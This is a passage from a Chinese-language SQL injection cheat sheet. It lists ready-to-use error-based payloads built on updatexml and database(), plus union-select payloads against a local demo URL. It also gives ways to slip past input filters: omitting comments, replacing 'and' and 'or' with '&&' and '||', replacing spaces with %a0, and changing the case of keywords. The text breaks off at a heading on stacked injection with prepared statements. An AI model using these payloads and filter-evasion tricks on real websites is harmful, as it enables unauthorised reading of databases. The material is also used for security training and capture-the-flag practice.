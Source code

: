 如果是模糊搜索的场景（比如搜索新闻标题）则需要添加%。

**尝试期间可能输出语法错误，或是没有回显，这两种情况都可以无视，直到尝试出现列数不对的报错提示，或是直接显示1和2，则可以进一步构造payload。**

如果正常输入后不会回显（比如登录等场景），且该问题并不是盲注问题，则需要把union select改成updatexml形式。

- id=1 or updatexml(1, concat('~', database(), '~'), 0) or
- id=1' or updatexml(1, concat('~', database(), '~'), 0) or '
- id=1" or updatexml(1, concat('~', database(), '~'), 0) or "
- and so on

# 应对sql注入的过滤

以下几种情况可能会同时出现，需要结合应对

## 过滤注释

当`--`和`#`被过滤时，可以考虑不用注释，而是在payload中去贴合sql语句，比如参数由单引号结尾时：

```php
$query = select * from users where id='$_GET['id']' LIMIT 0, 1
```

则构造payload

```
http://127.0.0.1/demo?id=-1' union select 1, 2, 3 or '1'='3
```

同样的，如果有括号的话则payload对应修改为

```
http://127.0.0.1/demo?id=-1') union select 1, 2, 3 or '1'='3
```

## 过滤and和or

and和or可以用别的形式表示，可以尝试一下几种：
- 更改大小写，后台或许不是大小写敏感的
- 使用url编码后的and和or
- 使用`&&`表示and，使用`||`表示or

## 过滤空格

空格可以使用别的字符替代，比较常见的是`%a0`，注意若在url里写，则可能要将别的特殊字符也用url编码，浏览器才会合适解析，比如要把`'`改写为`%27`。

## 过滤union select

可以尝试用大写部分字符来完成

# 堆叠注入

## 预编译
当堆叠注入条件下，过滤了select、update等语句的时候，可以使用预编译的方式：

